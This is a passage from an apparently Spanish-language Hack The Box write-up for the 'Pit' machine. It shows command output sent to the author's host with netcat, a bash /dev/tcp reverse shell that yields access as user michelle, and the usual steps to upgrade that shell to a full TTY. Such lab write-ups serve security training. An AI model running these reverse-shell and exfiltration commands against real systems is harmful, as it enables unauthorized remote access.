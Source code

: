 Y ejecutamos (aunque no se vea) el comando `id`, tomara el resultado y lo enviara al puerto **4433** de nuestra máquina:

```bash
id | nc 10.10.14.146 4433
```

Damos enter y en nuestro listener recibimos:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
connect to [10.10.14.146] from pit.htb [10.10.10.241] 34018
uid=1000(michelle) gid=1000(michelle) groups=1000(michelle) context=user_u:user_r:user_t:s0
```

Opa, estamos ejecutando comandos como **michelle** (: comprobando el comando `hostname` nos devuelve **pit.htb** y jugando con `curL` comprobamos que existe el binario, así que podemos destacar que claramente **nginx** no tenía permisos contra algunos binarios (por si alguien se lo preguntaba :P)

---

### <u>Obtenemos reverse shell como michelle</u>

Nos volvemos a poner en escucha y en la web ejecutamos:

```bash
bash -c 'bash >& /dev/tcp/10.10.14.146/4433 0>&1'
```

Lo que generara una bash hacia nuestro puerto... Dando enter obtenemos en nuestro listener:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/pit/346bash_nc_michelleRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Tenemos una Shell pero bastante fea eh! Lo bueno es que podemos intentar el transformarla en una **Full TTY** o sea, que sea interactiva y que se vea bonita, hagámoslo rápidamente:

Escribimos `script /dev/null -c bash`:

```bash
script /dev/null -c bash
Script started, file is /dev/null
[michelle@pit ~]$
```

La pausamos ejecutando `CTRL+Z`:

```bash
[michelle@pit ~]$ ^Z
[1]+  Detenido                nc -lvp 4433
```

```bash
❱ stty raw -echo; fg
```

Escribimos `reset` y ahora:

```bash
[michelle@pit ~]$ export TERM=xterm
[michelle@pit ~]$ export SHELL=bash
```
